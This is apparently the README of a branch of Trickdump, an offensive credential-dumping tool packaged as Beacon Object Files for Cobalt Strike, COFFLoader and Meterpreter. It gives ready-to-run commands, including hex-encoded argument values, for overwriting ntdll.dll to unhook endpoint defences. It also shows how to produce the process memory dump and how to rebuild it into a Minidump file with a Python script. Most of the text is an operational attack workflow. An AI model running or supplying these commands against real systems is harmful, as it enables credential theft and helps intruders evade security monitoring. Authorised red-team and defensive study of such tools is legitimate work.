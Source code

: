 # Trickdump - "bof-flavour" branch

This branch implements the same functionality as the main branch but using BOFs (Beacon Object Files).

You can execute the files using Cobalt Strike, TrustedSec's [COFFLoader](https://github.com/trustedsec/COFFLoader) or Meterpreter's [bofloader module](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-executebof-command.html).


-----------------------------------------

## Cobalt Strike

First import each aggressor script:

![bof1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF1.png)

Each BOF file has one optional input argument for overwriting ntdll.dll:
- "disk": Using a DLL already on disk. The default path is "C:\Windows\System32\ntdll.dll".    
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. The default process is "c:\windows\system32\calc.exe".

```
lock <OVERWRITE_TECHNIQUE>
```

![bof2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF2.png)

```
shock <OVERWRITE_TECHNIQUE>
```

![bof3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF3.png)

```
barrel <OVERWRITE_TECHNIQUE>
``` 

![bof4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF4.png)

If you prefer to generate all the files at the same time, run the Trick BOF:

```
trick <OVERWRITE_TECHNIQUE>
```

![bof6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF6.png)

Finally generate the Minidump file:

```
python3 create_dump.py [-l LOCK_JSON] [-s SHOCK_JSON] [-b BARREL_JSON] [-z BARREL_ZIP] [-o OUTPUT_FILE]
```

![bof7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF7.png)


-----------------------------------------

## COFFLoader

```
COFFLoader64.exe go <BOF_FILE> <OVERWRITE_TECHNIQUE>
```

The argument to overwrite the ntdll library must be generated using COFFLoader's [beacon_generate.py script](https://github.com/trustedsec/COFFLoader/blob/main/beacon_generate.py):
- "disk": Use the value 09000000050000006469736b00
- "knowndlls": Use the value 0e0000000a0000006b6e6f776e646c6c7300
- "debugproc": Use the value 0e0000000a000000646562756770726f6300
  
Examples running each BOF file with a differente overwrite technique:

```
COFFLoader64.exe go lock_bof.o 09000000050000006469736b00
```

![bof8](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF8.png)

```
COFFLoader64.exe go shock_bof.o 0e0000000a0000006b6e6f776e646c6c7300
```

![img9](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF9.png)

```
COFFLoader64.exe go barrel_bof.o 0e0000000a000000646562756770726f6300
```

![img10](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF10.png)

If you prefer to generate all the files at the same time, run the Trick BOF:

```
COFFLoader64.exe go trick_bof.o <OVERWRITE_TECHNIQUE>
```

![img12](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF12.png)


--------------------------------------

## Meterpreter's bofloader module

You can run the BOF files in your Meterpreter session after loading the execute_bof module and using "--format-string z <technique>" to use a ntdll overwrite technique:

```
load bofloader
execute_bof lock_bof.o --format-string z <OVERWRITE_TECHNIQUE>
execute_bof shock_bof.o --format-string z <OVERWRITE_TECHNIQUE>
execute_bof barrel_bof.o --format-string z <OVERWRITE_TECHNIQUE>
```

![img14](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF14.png)

If you prefer to generate all the files at the same time, run the Trick BOF:

```
execute_bof trick_bof.o --format-string z <OVERWRITE_TECHNIQUE>
```

![img16](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF16.png)
